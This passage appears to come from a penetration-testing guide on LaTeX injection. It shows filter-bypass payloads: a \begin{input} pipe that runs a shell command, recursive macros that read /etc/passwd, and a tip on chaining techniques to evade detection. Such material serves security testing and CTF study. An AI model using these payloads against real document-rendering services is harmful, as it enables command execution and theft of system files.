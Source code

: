 Lastly, by defining your own `\begin` and `\end` section, you can get arbitrary commands to be called. The argument in `\begin` defines the command, and the text in between is the argument. This trick bypasses almost any `\` blacklist because it only uses regular `\begin` and `\end`:

```latex
\begin{input}{|"id > /tmp/pwned"}\end{input}
```

{% hint style="info" %}
**Tip**: While one single of these techniques might not get straight through the filter, combining them can make it even more powerful. Try using one technique to set up another to obfuscate it for any detection there may be
{% endhint %}

#### Repeating

A filter might try to prevent loops using `\repeat` or similar functions, but forget that **recursion** is also an option. Here is a short command (named `\l`) that creates a **loop** for N times, with the first argument being the number of loops, and the second argument being the code to execute:

```latex
\renewcommand\l[2]{\ifnum#1>0#2\l{\numexpr#1-1\relax}{#2}\fi}
```

This can for example be used to read lines in a file:

```latex
\newread\file
\openin\file=/etc/passwd
\catcode`_=12
\l{10}{\read\file to\line\line}  % read and print the first 10 lines
\closein\file
```

To read the entire file, you can also make the EOF stop the recursion inside the command:

```latex
% define command \r to read and print a line if not EOF, and then call itself again
\renewcommand\r{\ifeof\file\else\read\file to\line\line\r\fi}
\catcode`_=12
\newread\file
\openin\file=/etc/passwd
\r  % call the read function
\closein\file
```
